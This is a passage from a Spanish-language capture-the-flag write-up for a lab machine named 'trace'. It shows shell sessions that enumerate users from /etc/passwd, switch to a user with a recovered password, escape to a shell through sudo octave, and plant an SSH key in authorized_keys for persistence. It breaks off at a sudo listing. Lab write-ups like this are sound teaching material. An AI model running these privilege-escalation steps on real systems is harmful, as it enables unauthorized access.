```shell
?>

<h1>Site Under Maintenance</h1>
<br>
<p>For network tests you can use the domain: <strong>networkteste.nyx</strong></p>
<br>
<br>
<br>
</p>

<?php
    }
    else
    {
        echo '<p>Invalid Credentials</p>';
    }
?>

  </body>
</html>
www-data@trace:/var/www/site1$
```
Enumere los usuarios con el /etc/passwd y probé la clave con estos, de esta manera encontré que la clave era del usuario yan.
```shell
www-data@trace:/var/www/site1$ cat /etc/passwd | grep 'sh$'
root:x:0:0:root:/root:/bin/bash
yan:x:1000:1000:yan,,,:/home/yan:/bin/bash
nel:x:1001:1001::/home/nel:/bin/bash
www-data@trace:/var/www/site1$ su yan
Password: 
yan@trace:/var/www/site1$ whoami
yan
```
# Shell como nel
El usuario yan puede ejecutar el binario octave como nel, existe una forma de escalar con el binario octave en <a href='https://gtfobins.github.io/gtfobins/octave/'>gtfo-bins</a> por lo que solo seguí las instrucciones y obtuve una shell como nel.
```shell
yan@trace:~$ sudo -u nel octave --eval 'system("/bin/sh")'
octave: X11 DISPLAY environment variable not set
]octave: disabling GUI features
$ whoami
/bin/sh: 1: ]whoami: not found
$ ls
ls: no se puede abrir el directorio '.': Permiso denegado
$ bash
nel@trace:/home/yan$ whoami
nel
```
# Shell como root
El usuario nel puede ejecutar wuzz como root, usando la herramienta y entendiendo como funciona encontré una forma de escalar a root. Para esto hice una llave ssh para poder entrar al ssh directamente. Una vez creada las llaves la id\_rsa.pub la copie y la pegue en el archivo /home/nel/.ssh/authorized\_keys (Si no existe lo creas). Y pude entrar como nel a través de ssh.
```shell
nel@trace:/home/yan$ sudo -l
Matching Defaults entries for nel on trace:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin

```